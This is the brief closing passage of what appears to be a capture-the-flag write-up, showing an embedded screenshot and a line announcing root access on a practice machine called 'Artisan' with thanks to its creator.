

And we are `Root` on `Artisan`. Thanks to `mcsam` for putting up such an interesting machine. 

